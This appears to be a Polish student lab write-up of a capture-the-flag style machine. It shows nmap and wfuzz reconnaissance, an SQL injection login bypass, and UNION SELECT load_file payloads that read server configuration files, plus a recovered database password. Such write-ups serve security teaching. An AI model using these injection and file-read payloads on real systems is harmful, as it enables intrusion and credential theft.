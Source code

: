 # ZTPPt

## Utworzenie połączenia z maszyną
Pobrany został plik konfiguracyjny OpenVPN na maszynę wirtualną z zainstalowanym systemem Kali Linux. Komenda do wywołania połaczenia VPN:
```
sudo openvpn lab.vpn
```

## Przebieg laboratorium
* Pierwszym krokiem było wykorzystanie oprogramowania nmap w celu rekonensanu aktywnego, użyto w tym celu komendy:
```
sudo nmap -sS -sV -sC <ip_address>
- sS - TCP SYN skan
- sV - sprawdzenie możliwosci występowania wersji oprogramowania na otwartym porcie
- sC - wykonanie podstawowych skryptów
```
Wynik skanowania

![Wynik skanowania](https://user-images.githubusercontent.com/52716721/141511219-992c3762-5266-45f4-82fd-62ae04e1c934.png)

* Biorąc pod uwagę otwarty port 80 oraz tytuł odpowiedzi z serwera HTTP, kolejne kroki będą prowadzone na stronie WWW, prezentującej się następująco
![Stronawww](https://user-images.githubusercontent.com/52716721/141511808-81ba4197-1cfd-4d19-9234-3433a15dec20.png)

* W celu znalezienia interesujących podstron, wykorzystane zostało wbudowane narzędzie wfuzz z atakiem słownikowym:
```
wfuzz -w /usr/share/wfuzz/wordlist/general/megabeast.txt -u http://10.10.11.101/FUZZ --hc 404
- w - ścieżka do słownika z podstronami
- u - adres strony z dodatkiem FUZZ w celu skanowania
- hc 404 - pominięcie podstron z odpowiedzią 404
```
Wynik skanowania wfuzz

![wfuzz](https://user-images.githubusercontent.com/52716721/141513351-5ff7381f-e698-43fc-89c7-81208a4f3e6c.png)

* Na stronie dostępny jest panel logowania administratora, pierwszym krokiem zostało sprawdzenie czy zadziała SQLi w tym celu użyto w polu loginu frazy `username ' or '1'='1`. Logowanie powiodło się, następnie wykorzystano sqlmap w celu sprawdzenia jaka jest skonfigurowana baza danych i użyto danych z formularza do logowania `uname=username'+or+'1'='1&password=test`.
Wynik prezentuje się następująco:

![image](https://user-images.githubusercontent.com/52716721/143478884-83138642-c297-49ad-b8b9-b0a13311ad73.png)

![image](https://user-images.githubusercontent.com/52716721/141533062-d4f0b4b6-4639-486f-bd20-947c012012d5.png)
![image](https://user-images.githubusercontent.com/52716721/141533167-0eb874b8-da4b-470f-af05-8a3f6688f1bd.png)
![image](https://user-images.githubusercontent.com/52716721/141533938-7c74d7bb-2572-46cb-9c1b-6d3e69b38044.png)
![image](https://user-images.githubusercontent.com/52716721/143478354-b7a9d660-18e8-4735-8002-3e3601dabfc1.png)
uname=username' UNION ALL SELECT NULL,load_file("/etc/apache2/sites-enabled/000-default.conf"),NULL,NULL,NULL,NULL-- -&password=test
uname=username' UNION ALL SELECT NULL,load_file("/var/www/writer.htb/writer.wsgi"),NULL,NULL,NULL,NULL-- -&password=test
![image](https://user-images.githubusercontent.com/52716721/143478809-566682a5-ca8f-4eb5-a72b-a2b08fc40f60.png)
![image](https://user-images.githubusercontent.com/52716721/143479464-bab8af2c-5c28-4e29-bc21-90d08b245957.png)
![image](https://user-images.githubusercontent.com/52716721/143479566-63bc8a3a-1baa-404d-bb12-aa454b7ced0a.png)
connector = mysql.connector.connect(user=&#39;admin&#39;, password=&#39;ToughPasswordToCrack&#39;, host=&#39;127.0.0.1&#39;, database=&#39;writer&#39;)







